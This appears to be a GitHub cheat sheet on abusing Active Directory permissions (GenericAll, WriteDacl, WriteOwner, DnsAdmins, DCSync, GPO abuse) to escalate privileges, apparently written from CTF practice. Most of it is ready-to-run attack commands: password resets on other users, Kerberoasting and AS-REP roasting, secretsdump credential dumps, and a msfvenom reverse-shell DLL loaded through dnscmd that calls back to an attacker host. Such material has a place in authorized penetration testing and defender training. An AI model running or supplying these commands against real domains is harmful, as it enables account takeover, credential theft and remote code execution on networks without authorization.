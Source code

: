 # Abusing-rights-in-a-Domain

Different domain users, have different rights. Some domain users have GenericAll, GenericWrite, WriteDacl, WriteOwner privilege on other domain users or groups. We can abuse these privileges and move further in domain.


### 1. Abusing GenericAll Privilege

eg: (john have GenericAll priv on Exchange Windows Permissions group)

We can add user in Exchange Windows Permissions group and then we have full control.

```markdown
net group "Exchange Windows Permissions" john /add /domain
```

GenericAll Privilege on adams user. 3-Ways.

1. We can change the adam password.
```markdown
net user adams N3wPassw0rd! /domain
```

2. We can set adams user SPN and do [Kerberoasting](https://k4sth4.github.io/Kerberos/).

Import [Powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
```markdown
Set-DomainObject -Identity adams -Set @{serviceprincipalname="fake/NOTHING"}
.\Rubeus.exe kerberoast /user:jadams /nowrap
```

3. We can set adams account to [AS-REP Roasting](https://k4sth4.github.io/Kerberos/).
```markdown
Set-DomainObject -Identity adams -XOR @{UserAccountControl=4194304}
.\Rubeus.exe asreproast /user:jadams /nowrap
```

### 2. Abusing GenericWrite Perm on a User
Here lily is the user on which we have generic write perm we can set this user to PreAuth and then by using [AS-REP Roasting](https://k4sth4.github.io/Kerberos/) we can get the user hash and crack it and login into system.
```markdown
Set-ADAccountControl -Identity lily -DoesNotRequirePreAuth $true
```
Now we can do [AS-REP Roasting](https://k4sth4.github.io/Kerberos/).


### 3. Abusing WriteDacl Priv on any Group
eg: claire has WriteDacl rights on the Backup_Admins group. We can add it to Backup_Admins group.
```markdown
net group backup_admins
net group backup_admins claire /add
```
NOTE: Open another shell if changes are not reflected.

### 4. Abusing WriteDacl Priv On Domain by grant yourself the DcSync privileges
dan (user) has WriteDacl Perm on DC.

using [Impacket](https://github.com/SecureAuthCorp/impacket) tool:
```markdown
ntlmrelayx.py -t ldap://10.129.95.210 --escalate-user dan
```
(10.129.95.210 = target IP)

nevigate to http://127.0.0.1  and enter the user (dan & pass) now wait till it ask for you to run secretsdump.py using creds

### 5. Abusing WriteOwner Privilege
We're tom user and getting ownership of claire and then change passwd of claire. Import [Powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).
```markdown
Set-DomainObjectOwner -identity claire -OwnerIdentity tom
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
$cred = ConvertTo-SecureString "qwer1234QWER!@#$" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
```

### 6. Abusing DNS Admin wrights
This way is just for CTFs, in real world this will gonna break the DNS service.

Step1. create a revshell via msfvenom
```markdown
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.x.x LPORT=4444 -f dll > shell.dll
```
Step2. set smbserver in the same dir where shell.dll
```markdown
impacket-smbserver -smb2support share .
```
Step3. exploitation on target machine (we don't need to upload shell.dll)
```markdown
dnscmd.exe /config /serverlevelplugindll \\10.10.x.x\share\shell.dll
sc.exe stop dns
sc.exe start dns
```
You will get a reverse shell.

### 7. Abusing ForceChange Password from linux os
login as support user and audit2020 is the user whose passwd gonna change.
```markdown
rpcclient -U support 10.129.1.243 
setuserinfo2 audit2020 23 'Passw0rd!' 
```


### 8. DcSync Attack
mrlky has Get-Changes privilege on the domain.
```markdown
secretsdump.py -just-dc mrlky:Football@10.10.10.103
```

### 9. Abuse GPO Policy 
upload [SharpGPOAbuse.exe](https://github.com/FSecureLABS/SharpGPOAbuse)
```markdown
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount hackzzdogs --GPOName "DCPolicy"
gpupdate /force
```
(hackzzdogs = current user name)

(DCPolicy = Group Policy Name you can find it on bloodhound)

Now we're in local administrator group.
```markdown
net loacalgroup administrators
```

